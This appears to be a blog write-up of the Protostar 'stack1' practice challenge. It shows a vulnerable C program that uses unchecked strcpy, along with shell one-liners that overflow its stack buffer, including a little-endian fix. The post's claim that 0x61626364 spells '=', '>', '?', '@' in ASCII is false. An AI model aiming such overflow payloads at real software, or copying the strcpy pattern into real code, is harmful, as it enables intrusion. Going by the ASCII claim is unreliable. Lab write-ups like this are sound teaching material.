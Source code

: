 ```yaml
---
layout: post
title: Protostar Writeup - stack1
updated: 2018-07-25 21:00
tags: [ctf, binary exploit, tech, protostar]
---
```


## Protostar - stack1

Moving on to the next challenge of Protostar. Before reading any further, I strongly advise that you try this challenge yourself first.
If you have taken a look at my [previous](http://laptop64.co/notes/proto-stack0) writeup, you can see that this challenge is fairly simple.
Instead of just modifying the 'modfied' variable we have to change it to a specific value which is `0x61626364`, which is basically '=', '>', '?' & '@' in ascii.
Here's the code:

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
{% endhighlight %}

Another change that we notice is that there is no `gets()` for input, instead we're taking input from the command line.
So how do we overflow this? Let's take a peek at the `strcpy()` man since this is what is used to copy into the buffer.
Scrolling down to the BUGS section, everything becomes clear.

> If the destination string of a strcpy() is not large enought, then anything might happen. Overflowing...favorite cracker technique.

With this information we can confirm that this is a buffer overflow attack. Using our knowledge from the previous write up, let's write our overflow.

{% highligh shell %}
$ ./stack1 $(python -c "print 'A' * 64 + '\x61\x62\x63\x64'")
Try again, you got 0x64636261
{% endhighlight %}

What?! How did that not work? The value of modified has changed, but it's "0x64636261" and not "0x61626364". Why so?
If we take a look at the site we see a little hint:

> Protostar is little endian

What this means is that when giving input data, the data stored with the LSB first and MSB last. So the fix is simple, just reverse the bytes.

{% highlight shell %}
$ ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
{% endhighlight %}

And there you have it, nice and easy.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
[endianness](https://en.wikipedia.org/wiki/Endianness)
